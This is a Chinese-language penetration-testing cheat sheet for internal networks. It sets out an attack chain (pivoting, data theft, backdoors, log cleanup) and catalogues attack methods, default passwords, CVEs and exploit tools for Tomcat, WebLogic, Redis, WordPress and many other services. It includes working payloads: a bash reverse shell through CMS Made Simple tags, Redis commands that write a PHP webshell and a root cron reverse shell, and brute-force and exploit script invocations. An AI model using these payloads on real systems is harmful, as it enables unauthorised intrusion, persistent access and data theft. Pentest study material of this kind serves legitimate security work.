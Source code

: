 常规思路
========================================

内网安全检查
----------------------------------------

攻击思路
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击外网服务器，获取外网服务器的权限，接着利用入侵成功的外网服务器作为跳板，攻击内网其他服务器，最后获得敏感数据，并将数据传递到攻击者，看情况安装长期后门，实现长期控制和获得敏感数据的方式；
- 攻击办公网的系统、办公网电脑、办公网无线等方式，一般是采用社工，实现控制办公电脑，再用获得的办公网数据，可能是内网的各种登录账号和密码，再获取办公网或者生产网的有用数据。

敏感资料/数据/信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 高管/系统管理员/财务/人事/业务人员的个人电脑
- 文件服务器/共享服务器
- 邮件服务器
- OA服务器
- 数据库服务器

攻击过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 信息收集
- 漏洞验证/漏洞攻击
- 后渗透
- 日志清理

信息收集
----------------------------------------
- 主机发现
- 端口扫描
- 漏洞扫描
- 识别内网环境
	+ 办公网
	+ 生产网

漏洞验证/漏洞攻击
----------------------------------------

Tomcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口号：8080
+ 攻击方法
	- 默认口令、弱口令，爆破，tomcat5 默认有两个角色：tomcat和role1。其中账号both、tomcat、role1的默认密码都是tomcat。弱口令一般存在5以下的版本中。
	- 在管理后台部署 war 后门文件
	- 远程代码执行漏洞
	- msf暴力破解
		::
		
			msfconsole
			search tomcat
			use auxiliary/scanner/http/tomcat_mgr_login 
			show options
			set rhosts 192.168.48.128
			run
			参考：https://blog.csdn.net/weixin_45006817/article/details/114936847
	- 防火墙绕过
		+ 包体前填充大量数据
		+ 示例：`tomcat.war <..//_static//tomcat.war>`_
+ 常见漏洞
	- CVE-2016-8735
	- CVE-2017-12615

Jboss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：8080
+ 攻击方法
	- 弱口令，爆破
	- 管理后台部署 war 后门
	- 反序列化
	- 远程代码执行
+ 常见漏洞
	- CVE-2015-7501
	- CVE-2017-7504
	- CVE-2017-12149

WebLogic
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：7001，7002
+ 攻击方法
	+ 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
	+ 管理后台部署 war 后门
	+ SSRF
	+ 反序列化漏洞
	+ weblogic_uac
+ 常见漏洞
	- CVE-2019-2725
	- CVE-2019-2729
	- CVE-2018-3191
	- CVE-2018-2628
	- CVE-2018-2893
	- CVE-2018-2894
	- CVE-2017-3506
	- CVE-2017-10271
	- CVE-2017-3248
	- CVE-2016-0638
	- CVE-2016-3510
	- CVE-2015-4852
	- CVE-2014-4210
+ 利用工具
	- 地址：``https://github.com/21superman/weblogic_exploit``
	- Weblogic 反序列化 RCE 图形化利用工具。

Shiro
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 利用工具
	- 地址：``https://github.com/j1anFen/shiro_attack``
	- Shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）.

WebSphere
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 端口：默认端口：908*；第一个应用就是9080，第二个就是9081；控制台9090
+ 攻击方法
	+ 控制台登录爆破
	+ 很多内网 websphere 的控制台存在弱口令 / 默认口令，可以使用 admin/admin 以及 webshpere/webshpere 这种口令登录。 通过该口令登录控制台后，可以部署 war 包，从而获取到 WEBSHELL 。
	+ 反序列化
	+ 任意文件泄露

Struts2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ S2-048
	+ S2-052
	+ S2-053
	+ S2-057
	+ S2-046 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-045 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
	+ S2-037 CVE-2016-4438 Struts 2.3.20-2.3.28.1
	+ S2-032 CVE-2016-3081 Struts 2.3.18-2.3.28
	+ S2-020 CVE-2014-0094 Struts 2.0.0-2.3.16
	+ S2-019 CVE-2013-4316 Struts 2.0.0-2.3.15.1
	+ S2-016 CVE-2013-2251 Struts 2.0.0-2.3.15
	+ S2-013 CVE-2013-1966 Struts 2.0.0-2.3.1
	+ S2-009 CVE-2011-3923 Struts 2.0.0-2.3.1.1
	+ S2-005 CVE-2010-1870 Struts 2.0.0-2.1.8.1
+ 扫描工具
	+ https://github.com/x51/STS2G/releases
	+ ``ST2SG --mode scan --url http://xxx.com/index.action``
+ 利用工具
	+ 地址：``https://github.com/shack2/Struts2VulsTools``

Spring 框架
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 可利用漏洞
	+ CVE-2010-1622
	+ CVE-2018-1274
	+ CVE-2018-1270
	+ CVE-2018-1273
	+ 反序列化
	+ 目录穿越
+ 利用工具
	- SpringBootExploit
		+ 地址：``https://github.com/0x727/SpringBootExploit``
		+ 一款针对 SpringBootEnv 页面进行快速漏洞利用的工具。

Actuator信息泄露
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Spring Boot Actuator 模块提供了健康检查，审计，指标收集，HTTP 跟踪等，是帮助我们监控和管理Spring Boot 应用的模块。
+ https://github.com/LandGrey/SpringBootVulExploit
+ heapdump获取*密码
	- JDK/bin/jvisualvm.exe工具
	- OQL执行： ``select s from java.util.LinkedHashMap$Entry s where /spring.datasource.password/.test(s.key)``
	- ``https://github.com/wyzxxz/heapdump_tool``
+ jolokia接口利用

Fastjson
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 利用工具
	- Fastjson_rce_tool
		+ 地址：``https://github.com/wyzxxz/fastjson_rce_tool``
		+ Fastjson命令执行自动化利用工具， remote code execute，JNDI服务利用工具 RMI/LDAP，LDAP反序列方式部分回显.

IIS：Windows 的 WWW 服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://masterxsec.github.io/2017/06/07/IIS-write-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
+ http://www.freebuf.com/articles/4908.html
+ https://www.anquanke.com/post/id/85811
+ IIS，开启了 WebDAV，可以直接详服务器 PUT 文件
+ 短文件名枚举漏洞
+ 远程代码执行
+ 提权漏洞
+ 解析漏洞

Apache
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 解析漏洞
+ 目录遍历

Apache Dubbo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-1948 反序列化漏洞利用
+ https://blog.csdn.net/weixin_46137328/article/details/107194560

Nginx
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ https://www.seebug.org/vuldb/ssvid-92538
+ 解析漏洞
+ 目录遍历
+ CVE-2016-1247：需要获取主机操作权限，攻击者可通过软链接任意文件来替换日志文件，从而实现提权以获取服务器的root权限

lighttpd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 目录遍历

宝塔
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过一个交互界面就能完成服务器的维护工作，比如更新系统，添加网站，修改设置等等。可以搭建任何开源建站程序，包括主流的WordPress，帝国CMS,织梦程序等，也可以搭建Java开源的建站程序，例如OneBlog程序。

Gitlab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- GitLab是一个利用 Ruby on Rails 开发的开源应用程序，实现一个自托管的项目仓库，可通过Web界面进行访问公开的或者私人项目。
- 可利用漏洞
	+ 任意文件读取漏洞
	+ 任意用户 token 泄露漏洞
	+ 命令执行漏洞
	
Jenkins
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Jenkins是一种跨平台的持续集成和交付的应用软件，它便于不断稳定地交付新的软件版本，并提高你的工作效率。这款开发运维工具还让开发人员更容易把项目的变化整合起来，并使用大量的测试和部署技术。
- 可利用漏洞：
	+ 远程代码执行漏洞
	+ 反序列化漏洞
	+ 未授权访问漏洞
	+ 登录入口爆破
- 常见漏洞
	+ CVE-2018-1999002

Puppet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Puppet Enterprise专门管理基础设施即代码(IAC)，在这种类型的IT基础设施配置过程中，系统用代码而不是脚本流程来自动构建、管理和配置。由于它是代码，整个过程易于重复。Puppet有助于更容易控制版本、自动化测试和持续交付，可以更快速地响应问题或错误。
- 可利用漏洞，很少公开的POC
- 反序列化
- 远程命令执行

Ansible
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Ansible是一种配置和管理工具，面向客户端的软件部署和配置，支持Unix、Linux和Windows。它使 用JSON和YAML，而不是IAC，根本不需要节点代理就可以安装。它可以通过OpenStack在内部系统上使用，也可以在亚马逊EC2上使用。
- 可利用漏洞
	+ 远程代码执行
	
Nagios
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nagios是一款开源的电脑系统和网络监视工具，能有效监控Windows、Linux和Unix的主机状态，交换机路由器等网络设置，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。
- 可利用漏洞
	+ 代码执行
	+ SQLi
	
Zabbix
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Zabbix 是一款强大的开源分布式监控系统, 能够将SNMP、JMX、Zabbix Agent提供的数据通过WEB GUI的方式进行展示。
- 可利用漏洞
	+ 远程代码执行
	+ SQLi
	+ shell 命令注入
	+ 认证绕过
	+ 默认账户与密码，默认口令 admin/zabbix，或者是guest/空
	
Cacit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Cacti是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具。
- 可利用漏洞
	+ 任意代码执行
	+ SQLi
	+ 登录爆破
	+ 默认密码admin/admin
	
Splunk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Splunk Enterprise 可以从任何来源监控和分析机器数据，以提供操作智能，从而优化您的 IT、安全和业务绩效。Splunk Enterprise 具有直观的分析功能、机器学习、打包应用程序和开放式 API，是一个灵活的平台，可从重点用例扩展到企业范围的分析主干。
- 可利用漏洞
	+ 信息泄露
	+ 命令注入
	+ 服务端请求伪造

邮件系统
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一部分是使用腾讯企业邮箱、阿里企业邮箱的，很难有可利用的漏洞，另外一种是能独立部署的邮件系统，政企常用的邮箱应用：

- Coremail
- 亿邮
- 35互联
- TurboMail
- Exchange
- IBM Lotus

nacos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 阿里巴巴产品，微服务配置中心。
+ 漏洞
	- 未授权文件泄露
	- 未授权任意用户添加
	- ``https://github.com/alibaba/nacos/issues/4593``

wordpress
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 扫描插件和主题是否包含漏洞
+ 拿到wp网站登录用户名和密码
	- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
	- shell目录：/wp-content/themes/[主题名]/[shell文件名]
	- 通过主题编辑修改php页面
+ xmlrpc.php
	- 查看支持的方案
	
	::
	
		POST /xmlrpc.php HTTP/1.1
		Host: 192.168.100.106
		User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
		Content-Type: text/xml;charset=UTF-8
		Content-Length: 128

		<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

CMS Made Simple
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 数据库更改密码方法
	- 前提：登录数据库
	- ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
+ 反弹shell
	- 前提：登录系统
	- Extensions/User Defined Tags
		::
			
			vps开启监听
			修改任何一个tag的code，点击apply，点击run
			echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");

tiki
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CVE-2020-15906
	- 利用条件：tiki<21.2
	- 免密码登录
		::
		
			https://www.exploit-db.com/exploits/48927
			python 48927.py 192.168.100.103
			打开burpsuite，开启拦截
			浏览器登录admin，输入密码
			bp去掉密码，forward
			
	- 命令执行
		::
		
			https://srcincite.io/pocs/cve-2021-26119.py.txt
			python cve-2021-26119.py 192.168.100.103 /tiki/ whoami

MySQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3306
- 攻击方法
	+ 爆破：弱口令
	+ 身份认证漏洞：CVE-2012-2122
	+ 拒绝服务攻击
	+ Phpmyadmin万能密码绕过：用户名：‘localhost’@’@” 密码任意
	+ 提权
	
MSSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
- 攻击方法：
	+ 爆破：弱口令/使用系统用户
	+ 注入
	
Oracle数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
- 攻击方法：
	+ 爆破：弱口令
	+ 注入攻击
	+ 漏洞攻击

PostgreSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5432
- 攻击方法
	+ 爆破：弱口令：postgres postgres
	+ 缓冲区溢出：CVE-2014-2669
	
MongoDB数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：27017
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问；github有攻击代码；
	
Redis数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：6379
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问+配合ssh key提权
- 工具和命令
	+ 连接：``redis-cli -h 172.16.143.1 -p 6379``
	+ 查看所有的keys：``keys *``
	+ 写入文件
		::
		
			CONFIG GET dir
			CONFIG SET dir /usr/share/apache/htdocs/
			SET shell "<?php echo system($_REQUEST[cmd])?>"
			CONFIG SET dbfilename shell.php
			save
	+ 反弹shell
		::
		
			C2服务器监听：nc -lvnp 7999
			
			注意：先查看一下原来的dir，dbfilename是什么，进行备份。
			redis服务器执行以下redis命令：
			set xx "\n* * * * * bash -i >& /dev/tcp/192.168.32.144/7999 0>&1\n"
			config set dir /var/spool/cron/
			config set dbfilename root
			save

SysBase数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：服务端口5000；监听端口4100；备份端口：4200
- 攻击方法：
	+ 爆破：弱口令
	+ 命令注入
	
DB2 数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5000
- 攻击方法
	+ 安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）

ActiveMQ
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：8161
- 攻击方法
	+ CVE-2016-3088：任意文件写入漏洞（Apache ActiveMQ 5.0.0 - 5.13.2）
		::
		
			https://jishuin.proginn.com/p/763bfbd74e97

MQTT
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ MQTT是一个基于客户端-服务器消息发布/订阅传输协议。
+ 相关漏洞
	- 授权和认证漏洞
	- 传输漏洞
	- 应用漏洞
+ mqtt-pwn
	::
	
		
		git clone https://github.com/akamai-threat-research/mqtt-pwn.git
		cd mqtt-pwn
		sudo docker-compose up --build --detach
		启动
		sudo docker-compose ps
		sudo docker-compose run cli


数据库【综合工具】
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ MDUT
	- MDUT 全称 Multiple Database Utilization Tools，是一款中文的数据库跨平台利用工具，集合了多种主流的数据库类型。基于前人 SQLTOOLS 的基础开发了这套程序(向 SQLTOOLS 致敬)，旨在将常见的数据库利用手段集合在一个程序中，打破各种数据库利用工具需要各种环境导致使用相当不便的隔阂。
	- 地址：``https://github.com/SafeGroceryStore/MDUT``

FTP 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
FTP服务我分为两种情况，第一种是使用系统软件来配置，比如IIS中的FTP文件共享或Linux中的默认服务软件；第二种是通过第三方软件来配置，比如Serv-U还有一些网上写的简易ftp服务器等；

- 默认端口：20（数据端口）；21（控制端口）；69（tftp小型文件传输协议）
- 攻击方式
	+ 爆破：ftp的爆破工具有很多，这里我推荐owasp的Bruter 以及msf中ftp爆破模块；
	+ 匿名访问：用户名：anonymous 密码：为空或任意邮箱
	+ 嗅探：ftp使用明文传输技术（但是嗅探给予局域网并需要欺骗或监听网关）
	+ 后门 vsftp
	+ 远程溢出
	+ 跳转攻击

NFS 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

- 攻击方法
	+ 未授权访问

Samba服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Samba是linux和unix系统上实现SMB/CIFS协议的一个免费软件，由服务器和客户端程序构成。而SMB是局域网支持共享文件和打印机的一种通信协议，为局域网内不同计算机之间提供文件及打印机等资源的共享服务。

- 攻击方法
	+ 远程代码执行
	+ 弱口令
	+ 未授权访问（public）

SSH服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSH是协议，通常使用OpenSSH软件实现协议应用。

- 端口：22
- 攻击方法
	+ 爆破
	+ 后门
	+ 漏洞：28退格漏洞、OpenSSL漏洞
- 常见漏洞
	+ CVE-2018-15473
		- OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机。
		- auxiliary(scanner/ssh/ssh_enumusers
		- https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
		- ``python sshUsernameEnumExploit.py --port 22 --userList /home/kali/Downloads/rockyou.txt 192.168.100.103``
- 命令
	+ 公钥登录: ``ssh -i id_rsa root@142.93.198.56``


Telnet服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。

- 默认端口：21
- 攻击方法
	+ 爆破
	+ 嗅探

Windows远程连接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3389
- 攻击方法
	+ 爆破
	+ Shift粘滞键后门：5次shift后门
	+ 利用ms12-020攻击3389端口
	
VNC服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
VNC（Virtual Network Computing），为一种使用RFB协议的显示屏画面分享及远程操作软件。此软件借由网络，可发送键盘与鼠标的动作及即时的显示屏画面。

- 默认端口：5900+桌面ID（5901；5902）
- 攻击方式：
	+ 爆破：弱口令
	+ 认证口令绕过：
	+ 拒绝服务攻击：（CVE-2015-5239）
	+ 权限提升：（CVE-2013-6886）
	
SMTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smtp：邮件协议，在linux中默认开启这个服务，可以向对方发送钓鱼邮件！

- 默认端口：25（smtp）、465（smtps）
- 攻击方式
	+ 爆破：弱口令
	+ 未授权访问
	
POP3协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：109（POP2）、110（POP3）、995（POP3S）
- 攻击方式：
	+ 爆破；弱口令
	+ 未授权访问

DNS服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：53
- 攻击方式：
	+ 区域传输漏洞
	
IMAP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：143（imap）、993（imaps）
- 攻击方式：
	+ 爆破：弱口令
	+ 配置不当
	
SNMP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：161
- 攻击方式
	+ 爆破：弱口令
	
DHCP服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：67&68、546（DHCP Failover做双机热备的）
- 攻击方式：
	+ DHCP劫持

VMware
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
使用 VMware vCloud 可将现有数据中心内的虚拟基础架构资源池化，并将其作为基于目录的服务交付。通过与云计算基础架构的最佳平台 VMware vSphere 配合使用，VMware vCloud Director 可为客户提供构建安全的私有云，从而改变 IT 部门交付和管理基础架构服务以及用户访问和使用这些服务的方式。

一般组织中很多独立安装的 Esxi 形式的私有云，或独立部署的虚拟化系统。

- 漏洞
	+ 主机逃逸
	+ CVE-2017-5638
	
OpenStack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
OpenStack是基础设施即服务（IaaS）软件，让任何人都可以自行创建和提供云计算服务。此外，OpenStack也用作创建防火墙内的“私有云”（Private Cloud），提供机构或企业内各部门共享资源。

- 漏洞，有漏洞但是POC基本没有。检查时候可以参考安全的配置实践。
	+ 权限绕过漏洞
	+ 信息泄露
	+ 代码执行漏洞
	
Docker
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Docker是一个开放源代码软件项目，让应用程序布署在软件容器下的工作可以自动化进行，借此在Linux操作系统上，提供一个额外的软件抽象层，以及操作系统层虚拟化的自动管理机制[1]。

Docker利用Linux核心中的资源分脱机制，例如cgroups，以及Linux核心名字空间（name space），来创建独立的软件容器（containers）。这可以在单一Linux实体下运作，避免引导一个虚拟机造成的额外负担。

Linux核心对名字空间的支持完全隔离了工作环境中应用程序的视野，包括进程树、网络、用户ID与挂载文件系统，而核心的cgroup提供资源隔离，包括CPU、内存、block I/O与网络。

从0.9版本起，Dockers在使用抽象虚拟是经由libvirt的LXC与systemd - nspawn提供界面的基础上，开始包括libcontainer函数库做为以自己的方式开始直接使用由Linux核心提供的虚拟化的设施。

- 安全问题（很少有漏洞的POC，安全检查也是基于最佳实践和官方安全建议进行）
	+ CVE-2015-3630 1.6.0 Docker Libcontainer 安全绕过漏洞
	+ CVE-2015-3627 1.6.1 Libcontainer和Docker Engine 权限许可和访问控制漏洞
	+ CVE-2015-3630 1.6.1 Docker Engine 安全绕过漏洞
	+ CVE-2014-9358 1.3.3 Docker 目录遍历漏洞
	+ CVE-2014-9357 1.3.2 Docker 权限许可和访问控制漏洞
	+ CVE-2014-6408 1.3.1 Docker 权限许可和访问控制漏洞
	+ CVE-2014-5277 1.3.0 Docker和docker-py 代码注入漏洞
	+ 内核漏洞（Kernel exploits） 容器是基于内核的虚拟化，主机（host）和主机上的所有容器共享一套内核。如果某个容器的操作造成了内核崩溃，那么反过来整台机器上的容器都会受到影响。
	+ 拒绝服务攻击（Denial-of-service attacks） 所有的容器都共享了内核资源，如果一个容器独占了某一个资源（内存、CPU、各种ID），可能会造成其他容器因为资源匮乏无法工作（形成DoS攻击）。
	+ 容器突破（Container breakouts） Linux的namespace机制是容器的核心之一，它允许容器内部拥有一个PID=1的进程而在容器外部这个进程号又是不一样的（比如1234）。现在问题在于如果一个PID=1的进程突破了namespace的限制，那么他将会在主机上获得root权限。
	+ 有毒镜像（Poisoned images） 主要是考虑到镜像本身的安全性，没太多好说的。

Elsaticsearch
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Elasticsearch 是一个分布式的搜索和分析引擎，可以用于全文检索、结构化检索和分析，并能将这三者结合起来。Elasticsearch 基于 Lucene 开发，现在是使用最广的开源搜索引擎之一，Wikipedia、Stack Overflow、GitHub 等都基于 Elasticsearch 来构建他们的搜索引擎。

- 默认端口：9200、9300
- 攻击方法：
	+ 未授权访问；
	+ 远程命令执行；
	+ 文件遍历；
	+ 低版本webshell植入；
	
hadoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。

Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

用函数式变成Mapreduce代替SQL，SQL是查询语句，而Mapreduce则是使用脚本和代码，而对于适用于关系型数据库，习惯SQL的Hadoop有开源工具hive代替。 Hadoop就是一个分布式计算的解决方案。

Hive
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hive是Hadoop家族中一款数据仓库产品，Hive最大的特点就是提供了类SQL的语法，封装了底层的MapReduce过程，让有SQL基础的业务人员，也可以直接利用Hadoop进行大数据的操作。

Sqoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Apache Sqoop（SQL-to-Hadoop） 项目旨在协助 RDBMS 与 Hadoop 之间进行高效的大数据交流。

用户可以在 Sqoop 的帮助下，轻松地把关系型数据库的数据导入到 Hadoop 与其相关的系统 (如HBase和Hive)中；同时也可以把数据从 Hadoop 系统里抽取并导出到关系型数据库里。除了这些主要的功能外，Sqoop 也提供了一些诸如查看数据库表等实用的小工具。

HBase
